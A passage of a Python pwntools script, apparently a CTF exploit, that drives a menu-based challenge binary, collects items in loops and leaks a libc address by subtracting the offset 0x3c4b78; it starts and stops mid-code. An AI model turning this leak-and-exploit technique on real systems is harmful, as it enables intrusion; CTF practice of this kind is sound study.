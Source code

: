 ```python=
		if total[i] not in have:
			have.append(total[i])
			r.sendlineafter(":",str(i+1))
			r.sendlineafter(":","1")
			break
		elif i==5:
			r.sendlineafter(":","7")
                        r.sendlineafter(":","1")


have[0] = ""
r.sendlineafter(":","4")
r.sendlineafter(":","1")
r.sendlineafter(":","0")
while len(have) < 17:
        r.sendlineafter(":","1")
        r.recvline()
        total = [ r.recvline().split(".")[-1] for _ in range(6)]

        for i in range(6):
                if total[i] not in have:
                        have.append(total[i])
                        r.sendlineafter(":",str(i+1))
                        r.sendlineafter(":","1")
                        break
                elif i==5:
                        r.sendlineafter(":","7")


r.sendlineafter(":","4")
r.sendlineafter(":","2")
r.sendlineafter(":","1")
have = [have[-1]]
while len(have) < 3:
        r.sendlineafter(":","1")
        r.recvline()
        total = [ r.recvline().split(".")[-1] for _ in range(6)]

        for i in range(6):
                if total[i] not in have:
                        have.append(total[i])
                        r.sendlineafter(":",str(i+1))
                        r.sendlineafter(":","1")
                        break
                elif i==5:
                        r.sendlineafter(":","7")

r.sendlineafter(":","4")
r.sendlineafter(":","1")
r.sendlineafter(":","0")

r.sendlineafter(":","3")
r.sendlineafter(":","1")
r.sendlineafter(":","15")

r.recvuntil("Amount:")
libc = int(r.recvline()) - 0x3c4b78
print hex(libc)

while len(have)<4:
	r.sendlineafter(":","1")
        r.recvline()
	total = [ r.recvline().split(".")[-1] for _ in range(6)]
```